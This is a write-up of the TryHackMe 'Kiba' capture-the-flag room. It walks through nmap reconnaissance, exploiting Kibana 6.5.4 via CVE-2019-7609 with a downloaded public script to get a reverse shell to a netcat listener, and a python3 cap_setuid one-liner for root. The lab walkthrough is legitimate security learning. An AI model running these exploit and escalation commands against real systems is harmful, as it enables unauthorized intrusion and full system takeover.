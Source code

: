 # THM: Kiba

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="../../images/write_ups/try_hack_me/kiba/kiba.png" alt="Kiba" width="90"/> |
| Room | Kiba |
| URL | https://tryhackme.com/room/kiba |
| Difficulty | Easy |

## Concepts/Tools Used

- getcap

## Room Description

Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-05 22:05 BST
Nmap scan report for target.thm (10.10.223.67)
Host is up (0.045s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 503 Service Unavailable
|     retry-after: 30
|     content-type: text/html; charset=utf-8
|     cache-control: no-cache
|     content-length: 30
|     Date: Sat, 05 Jul 2025 21:05:55 GMT
|     Connection: close
|     Kibana server is not ready yet
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 503 Service Unavailable
|     retry-after: 30
|     content-type: text/html; charset=utf-8
|     cache-control: no-cache
|     content-length: 30
|     Date: Sat, 05 Jul 2025 21:05:54 GMT
|     Connection: close
|_    Kibana server is not ready yet
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.80%I=7%D=7/5%Time=686993B2%P=x86_64-pc-linux-gnu%r(Get
SF:Request,E0,"HTTP/1\.1\x20503\x20Service\x20Unavailable\r\nretry-after:\
SF:x2030\r\ncontent-type:\x20text/html;\x20charset=utf-8\r\ncache-control:
SF:\x20no-cache\r\ncontent-length:\x2030\r\nDate:\x20Sat,\x2005\x20Jul\x20
SF:2025\x2021:05:54\x20GMT\r\nConnection:\x20close\r\n\r\nKibana\x20server
SF:\x20is\x20not\x20ready\x20yet")%r(HTTPOptions,E0,"HTTP/1\.1\x20503\x20S
SF:ervice\x20Unavailable\r\nretry-after:\x2030\r\ncontent-type:\x20text/ht
SF:ml;\x20charset=utf-8\r\ncache-control:\x20no-cache\r\ncontent-length:\x
SF:2030\r\nDate:\x20Sat,\x2005\x20Jul\x202025\x2021:05:54\x20GMT\r\nConnec
SF:tion:\x20close\r\n\r\nKibana\x20server\x20is\x20not\x20ready\x20yet")%r
SF:(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(RPCChec
SF:k,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(DNSVersionBindReqT
SF:CP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(DNSStatusRequestT
SF:CP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Help,1C,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLSessionReq,1C,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\n\r\n")%r(TerminalServerCookie,1C,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\n\r\n")%r(TLSSessionReq,1C,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\
SF:r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Fou
SF:rOhFourRequest,E0,"HTTP/1\.1\x20503\x20Service\x20Unavailable\r\nretry-
SF:after:\x2030\r\ncontent-type:\x20text/html;\x20charset=utf-8\r\ncache-c
SF:ontrol:\x20no-cache\r\ncontent-length:\x2030\r\nDate:\x20Sat,\x2005\x20
SF:Jul\x202025\x2021:05:55\x20GMT\r\nConnection:\x20close\r\n\r\nKibana\x2
SF:0server\x20is\x20not\x20ready\x20yet")%r(LPDString,1C,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\n\r\n")%r(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(LDAPBindReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\n\r\n")%r(SIPOptions,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\
SF:r\n")%r(LANDesk-RC,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(T
SF:erminalServer,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
MAC Address: 02:C8:58:81:D8:AD (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.58 seconds
```

## What is the vulnerability that is specific to programming languages with prototype-based inheritance?

I type that question into google and it shows a result that talks about Prototype pollution.

I ran the following to see that ssh on the target allows password authentication:

```bash
$ ssh target.thm
```

I make a note of that and check the site running at http://target.thm. It mentions that linux capabilities are very interesting. I am not familiar with those but I do take a note of it. I don't see much else and so I check http://target.thm:5601 to see what is on that port before I try running directory enumeration on port 80.

## What is the version of visualization dashboard installed in the server?

The site on port 5601 has Kibana running. I click the link that says "explore my own" data. The first thing I do is try to find a version number for Kibana. I clicked the management link on the left side panel. It says version 6.5.4.

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

I run the following to command to see if searchsploit has anything:

```bash
$ searchsploit kibana 6.5.4
```

I get no results. I google "kibana 6.5.4 cve" and I find CVE-2019-7609 which is a arbitrary code execution for this version of Kibana.

I do another google search for "cve-2019-7609 poc". I get a hit with this one. I find a [github repository](https://github.com/LandGrey/CVE-2019-7609) with a python script. I download the script to my attack box with the following:

```bash
$ wget https://raw.githubusercontent.com/LandGrey/CVE-2019-7609/refs/heads/master/CVE-2019-7609-kibana-rce.py
```

## Compromise the machine and locate user.txt

The script wants a url to the kibana instance, it also wants the reverse shell url and port number. There is one more argument that will call the reverse shell but if that argument is not provided the script just verifies that the Kibana instance is vulnerable.

I make some changes to the script so that it will work with python3. They are the following:

- Line 23: Add `.decode('utf-8')` after r.content
- Line 57: Add `.decode('utf-8')` after r.content

After the changes, I check to make sure the Kibana instance is vulnerable with the following command:

```bash
$ python3 CVE-2019-7609-kibana-rce.py -u http://target.thm:5601
[+] http://target.thm:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
```

I open a new terminal on my attack box and run the following to start a reverse shell listener:

```bash
$ nc -lvnp 4444
```

Then I run the following:

```bash
$ python3 CVE-2019-7609-kibana-rce.py -u http://10.10.223.67:5601 -host <attack_box_ip> -port 4444 --shell
[+] http://10.10.223.67:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: <attack_box_ip>:4444
```

I have a shell. I'm in!

I follow the [steps here](../../README.md#stable-shell) to get a stable shell.

I run the following to see what users have a home directory:

```bash
$ ls -lh /home
kiba
```

I then cat the file in that directory:

```bash
$ cat /home/kiba/user.txt
REDACTED
```

## How would you recursively list all of these capabilities?

Since I am not familiar with linux capabilities, I did a google search and found the `getcap` command. I looked at the documentation for this command by running:

```bash
$ man getcap
```

As I read the documentation, I found that the -r flag does a recursive search. So the command is the following:

```bash
$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
```

I added the `2>/dev/null` because I only want successful values. The entry it returned is very interesting.

## Escalate privileges and obtain root.txt

All I had to do was create a shell as root using the python3 at the location above. Here is the command I ran:

```bash
$ /home/kiba/.hackmeplease/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

It worked. I'm in! The cursor changed to the # character to let me know that I am root. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```
